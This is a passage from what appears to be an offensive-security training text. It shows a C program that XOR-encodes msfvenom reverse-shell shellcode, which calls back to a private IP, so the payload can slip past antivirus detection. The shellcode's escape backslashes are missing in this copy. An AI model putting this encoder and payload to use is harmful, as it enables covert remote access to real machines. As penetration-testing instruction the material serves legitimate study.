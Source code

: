 The code for our encoding program is very similar to our original C program. The key difference lies in the _main_ loop. Instead of running the payload, we're converting each character using XOR and printing it to the console.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char buf[] = 
"x6ax39x58x0fx05x48x85xc0x74x08x48x31xffx6ax3c"
"x58x0fx05x6ax39x58x0fx05x48x85xc0x74x08x48x31"
"xffx6ax3cx58x0fx05x48x31xffx6ax09x58x99xb6x10"
"x48x89xd6x4dx31xc9x6ax22x41x5axb2x07x0fx05x48"
"x85xc0x78x51x6ax0ax41x59x50x6ax29x58x99x6ax02"
"x5fx6ax01x5ex0fx05x48x85xc0x78x3bx48x97x48xb9"
"x02x00x05x39xc0xa8x76x03x51x48x89xe6x6ax10x5a"
"x6ax2ax58x0fx05x59x48x85xc0x79x25x49xffxc9x74"
"x18x57x6ax23x58x6ax00x6ax05x48x89xe7x48x31xf6"
"x0fx05x59x59x5fx48x85xc0x79xc7x6ax3cx58x6ax01"
"x5fx0fx05x5ex6ax7ex5ax0fx05x48x85xc0x78xedxff"
"xe6";

int main (int argc, char **argv) 
{
	char xor_key = 'J';
	int payload_length = (int) sizeof(buf);

	for (int i=0; i<payload_length; i++)
	{
		printf("\x%02X",buf[i]^xor_key);
	}

	return 0;

}
```

> Listing 36 - Code to XOR encode our shellcode and output to the screen

The code includes our original msfvenom-generated shellcode buffer as a character array. It defines an XOR key value (in this case, "J") and calculates the length of the buffer string. It then stores that value as an integer in the _payload\_length_ variable.

```
char xor_key = 'J';
int payload_length = (int) sizeof(buf);
```

> Listing 37 - First part of our encoder's main loop

The program then iterates through the characters, performing a bitwise-XOR operation on them with the XOR key we chose. Next, it prints the newly-encoded hex value to the screen so that we can copy it later.
